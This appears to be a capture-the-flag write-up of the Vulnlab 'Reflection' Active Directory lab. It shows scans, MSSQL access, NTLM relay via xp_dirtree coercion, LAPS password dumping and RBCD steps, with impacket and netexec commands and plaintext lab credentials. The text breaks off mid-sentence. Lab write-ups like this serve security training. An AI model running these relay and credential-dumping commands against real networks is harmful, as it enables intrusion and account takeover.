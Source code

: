 ```yaml
---
title: Vulnlab - Reflection
date: 2024-02-05
categories: [Vulnlab]
tags: [Vulnlab, AD]
pin: false
---
```


## Vulnlab - Reflection
Reflection is another chain from Vulnlab which goes into MSSQL exploitation, relaying and Resource-based Constrained Delegation (RBCD) abuse.


## Targets
Upon starting the box I added the following information into my hosts file.
```
10.10.153.213 reflection.vl
10.10.153.213 dc01.reflection.vl
10.10.153.214 ms01.reflection.vl
10.10.153.215 ws01.reflection.vl
```

## Scan dc.reflection.vl
```
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-02 12:11:03Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
1433/tcp open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6039/tcp filtered x11
9389/tcp open     adws?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ms01.reflection.vl
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ws01.reflection.vl
```

```

## SMB enumeration - MS01
After some SMB enumeration I figured out that the MS01 machine has an accessible share called 'staging'.
![_install](/assets/img/VL-Reflection/smbclient.png)
When accessing the share we can see that it contains a file called "staging_db.conf" which when viewed contains a set of credentials for a database called "staging":
![_install](/assets/img/VL-Reflection/smbclient2.png)

## MSSQL enumeration - MS01
Using netexec I tried the credentials that I found on the  share. This revealed that we can use it on the MSSQL database on MS01.
![_install](/assets/img/VL-Reflection/nxc_mssql.png)
Let access mssql service using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_staging':'Washroom510'@10.10.220.54
```
This results in us getting acccess on the MSSQL server on MS01 as the local user web_staging:
![_install](/assets/img/VL-Reflection/mssqlclient1.png)

## MSSQL UNC Path Injection Relay - MS01
I tried some basic privilege escalation techniques such as enabling xp_cmdshell which ultimatly resultated in nothing. One thing I noticed during enumeration is that the DC doesn't have SMB Signing enabled. I found this very odd and thought we might have to relay some kind of authentication request. An attack that I've done quite a few time on client assessments is using UNC Path Injection using the xp_dirtree stored procedure and relay the authentication to other machines in the domain.

First let's check if we can coerce authentication using xp_dirtree to our attacker machine:
![_install](/assets/img/VL-Reflection/xp_dirtree.png)
We see that we successfully receieve an incoming connection on our SMB server from the Domain User svc_web_staging. I also tried to crack the hash, however this didn't do well. Lets setup ntlmrelayx from impacket to relay to authentication:
```bash
ntlmrelayx.py -tf ips.txt -socks -smb2support -debug
```
I used the -tf and -socks option to relay the authentication to all computers and create a socks5 proxy which I can use my tools through. After triggering the coercion we can see that we have an active connection to DC and WS01 


## Active Directory Enumeration
Now that we have an active Socks5 SMB connection to the DC and WS01 we can perform some AD enumeration. First let's see if we can find something of interest on the SMB shares using smbclient.py from the impacket toolkit:
```bash
proxychains smbclient.py REFLECTION/SVC_WEB_STAGING:'fakepass'@10.10.153.213
```
We can check if there are any shares which we can access. In this case we can access the "prod" share which contains a file called"prod_db.conf". We already had staging credentials to the MSSQL database, now lets try to validate if we have access to another MSSQL database using netexec:
```bash
nxc mssql ips.txt -u web_prod -p Tribesman201 --local-auth
```
Netexec tells us that the credentials are valid on the DC, let's login again using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_prod':'Tribesman201'@10.10.153.213
```
And once again we have access to the prod database. After some quick enumeration I found the users table which contain two sets of credentials:
![_install](/assets/img/VL-Reflection/initial_ad_creds.png)

I put the credentials into two seperate files called "users.txt" and "pass.txt" and checked if the credentials are valid using netexec:

Now that we have valid AD credentials we can enumerate the AD environment. Lets start by kicking of the BloodHound.py remote ingestor:
```bash
python3 bloodhound.py -d reflection.vl -v --zip -c All -dc reflection.vl -ns 10.10.153.213 -u dorothy.rose -p 'hC_fny3OK9glSJ'
```
After running the script we can load the zip file into BloodHound and perform some enumeration. I quickly noticed that the user "abbie.smith" has GenericAll right on the MS01 machine which allows us to add the ms-DSAllowedToActOnBehalfOfOtherIdentity attribute. This allows us to perform an RBCD attack on the Domain thus allowing us to elevate privileges. Sadly I quickly realized that his was not possible since the MachineAccountQuota was set to 0.
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M MAQ
```
![_install](/assets/img/VL-Reflection/maq.png)

Upon enumerating the MS01 machine I noticted that it has LAPS enabled. 
![_install](/assets/img/VL-Reflection/LAPS.png)
Since we have GenericAll permissions on the computer this allows us the retrieve the Local Admininistrator Password of the MS01 computer. Using netexec I was able to dump the LAPS password of the computer:
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M laps
```
![_install](/assets/img/VL-Reflection/laps_dump.png)



## Resource Based Constrained Delegation

Dumped the password of Gerogia.price which has genericall on WS01. We get get hash of WS01 and perform RBCD. First run secretsdump.py and add RBCD using rbcd.py from impacket.

Then impersonate the administrator on the domain while request a silver ticket using getST.py from again impacket for the CIFS service.

NExt we import the kerberos ticket in memory and secretsdump the WS01 computer. This reveals the password of Rhys.Garner, however we don't need his password since we already have Domain Admin access. Let's try to 
